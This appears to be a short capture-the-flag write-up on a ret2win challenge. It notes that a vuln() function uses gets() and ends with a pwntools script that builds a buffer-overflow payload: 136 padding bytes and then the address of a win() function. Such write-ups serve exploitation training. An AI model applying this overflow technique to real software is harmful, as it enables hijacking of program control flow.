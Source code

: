 We can see the following, there's a `vuln()` function which goes with this:

![Pasted image 20250328175458.png](../../IMAGES/Pasted%20image%2020250328175458.png)

The vuln function uses `gets()`, we can find another function called `win`:

![Pasted image 20250328175558.png](../../IMAGES/Pasted%20image%2020250328175558.png)

We are dealing with something called `ret2win`, let's search how to exploit this:

Info: https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win


We can do this, after analyzing the binary, I found that the `win()` function address is `0x400646` and the `$rsp` location is `136`, with this data, we can craft the following script to get a test payload:


```python
import pwn

win_location = pwn.p64(0x400646)

payload = b"".join(
	[
		b"A"*136, 
		win_location,
	]
)

with open("payload.p", "wb") as file:
	file.write(payload)
```
